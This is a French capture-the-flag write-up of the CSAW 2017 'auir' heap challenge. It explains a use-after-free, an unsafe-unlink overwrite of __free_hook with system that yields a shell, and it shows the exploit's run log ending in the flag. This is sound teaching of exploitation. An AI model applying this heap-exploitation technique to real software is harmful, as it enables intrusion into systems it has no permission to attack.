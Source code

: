 ```yaml
---
layout: post
title: "CSAW CTF"
date: 18 Septembre 2017
comments: true
categories: wu
---
```

 ===== INFOS ===== 
Filename                 auir
File format              ELF64
Architecture             x86-64
Endianess                little endian
Entry point              0x400da0
Loadables segments       2
Sections                 28

NX bit                   enabled
SSP                      disabled
Relro                    partial
RPATH                    no rpath
RUNPATH                  no runpath
PIE                      disabled

Le binaire présente plusieurs failles:

1) Un tableau de pointeur vers des zones dans le tas (heap) voit ses entrées
mises par incrément, toujours accessibles et jamais effacées. Cela permet un
use after free.
2) la possibilité d'adresser des pointeurs en dehors du tableau (cela s'est
avérée inutile)

L'idée générale consiste à creer un gros bloc puis à le supprimer et à créer
des plus petis blocs qui seront à l'intérieur de ce gros bloc. La possibilité
d'editer et de visualiser le gros bloc permet de modifier les entêtes des
chunks et de recupèrer les adresses du tas (inutile) et de la main_arena
donc de la libc.

Un unsafe_unlink est utilisée pour pour éditer le pointeur d'un des zealot
et de le faire pointer vers __free_hook ou on met l'adresse de system.

La destruction d'un zealot s'appelant /bin/sh permet d'obtenir un shell.


[*] '/home/francois/BFF/beers4flags/writeups/2017/csaw2017/pwn/auir/auir'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/francois/BFF/beers4flags/writeups/2017/csaw2017/pwn/auir/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[x] Opening connection to pwn.chal.csaw.io on port 7713
[x] Opening connection to pwn.chal.csaw.io on port 7713: Trying 216.165.2.35
[+] Opening connection to pwn.chal.csaw.io on port 7713: Done
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
destroy  0
look at 0
[+] arena= 0x7fe1dbaffb78
[+] system= 0x7fe1db780390
system  =  0x7fe1db780390
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
destroy  4
destroy  5
look at 5
[+] heap= 0xb13c20
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
destroy  7
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]WHCIH ONE DO YOU WANT TO FIX ?
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]FIXED ZEALOT NUMBER:7
[*]FIXED ZEALOT SIZE:1024
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
destroy  9
le numéro 8 pointe sur le numéro 5
look at 5
[*]SHOWING....
x[code hexa divers]|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]WHCIH ONE DO YOU WANT TO FIX ?
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]WHCIH ONE DO YOU WANT TO FIX ?
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
destroy  2
[*] Switching to interactive mode
[*]BREAKING....
$ cat flag
flag{W4rr10rs!_A1ur_4wa1ts_y0u!_M4rch_f0rth_and_t4k3_1t!}
$ exit
[*]SUCCESSFUL!
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>